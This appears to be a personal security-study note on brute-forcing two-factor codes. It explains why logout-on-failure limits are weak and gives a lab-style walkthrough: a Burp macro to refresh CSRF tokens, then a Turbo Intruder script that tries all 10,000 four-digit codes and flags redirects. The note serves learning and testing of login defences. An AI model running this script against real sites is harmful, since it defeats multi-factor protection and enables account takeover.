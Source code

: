 As with passwords, websites need to take steps to prevent brute forcing of the 2FA verification code. This is essentially important because the code is often a simple 4 or 6-digit number. Without adequate brute force protection, cracking such a code is trivial.

Some websites attempt to prevent this by automatically logging a user out if they enter a certain number of incorrect verification codes. This is ineffective in practice because an advanced attacker can even automate this multi-step process by creating macros for Burp Intruder, and/or using the Turbo Intruder extension.
## Example Exploit
In this example, we already have the username and password of our target user, but we still need the 2FA verification code. However, if we enter the wrong code an x amount of times, the website will force us to logout.
1. In Burp, we need to [create a macro](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FBurp%20Suite%20Tips%20%26%20Tricks%2FCreating%20Macros) to bypass the restriction and retrieve CSRF token.
2. Send the `POST /login2` request to Turbo Intruder. Then change the `mfa-code` parameter value to `%s` - which is the injector Turbo Intruder needed.
3. Use the following code then start the attack.
```python
# https://gist.github.com/bavlayan/aa7470b9692f05f29e6c8ea88e8bde85
def queueRequests(target, wordlists):
    engine = RequestEngine(
	    endpoint=target.endpoint,
        concurrentConnections=1,
        #requestsPerConnection=100,
        #pipeline=False,
		engine=Engine.BURP
    )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)
```